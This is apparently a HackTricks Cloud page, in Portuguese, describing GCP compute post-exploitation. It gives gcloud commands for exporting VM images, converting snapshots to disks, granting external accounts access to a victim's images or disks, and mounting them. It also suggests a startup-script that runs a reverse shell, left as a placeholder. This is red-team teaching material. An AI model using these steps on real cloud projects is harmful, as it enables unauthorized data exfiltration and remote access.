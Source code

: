 # GCP - Computação Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Computação

Para mais informações sobre Computação e VPC (Rede) confira:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspecionar Imagens localmente

Isso permitiria que um atacante **acessasse os dados contidos dentro de imagens já existentes** ou **criasse novas imagens de VMs em execução** e acessasse seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e, com certeza, **privilégios sobre o cloudbuild**, pois é o **serviço** que será solicitado para realizar a exportação.\
Além disso, para que isso funcione, o SA do codebuild e o SA do compute precisam de permissões privilegiadas.\
O SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspecionar Snapshots e Discos localmente

Não é possível exportar snapshots e discos diretamente, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e, seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecionar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem,** é possível conceder a uma conta externa acesso à imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e então crie uma nova VM a partir disso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder conceder acesso à sua conta externa sobre a imagem, poderá iniciar uma VM usando essa imagem no projeto da vítima e **fazer os metadados executarem um reverse shell** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disk anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou um snapshot, você poderia transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você poderia **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montar o disco dentro da VM:

1.  **SSH na VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificar o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatar e Montar o Disco** (se for um disco novo ou bruto):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se você **não puder dar acesso a um projeto externo** ao snapshot ou disco, pode ser necessário **realizar essas ações dentro de uma instância no mesmo projeto que o snapshot/disco**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
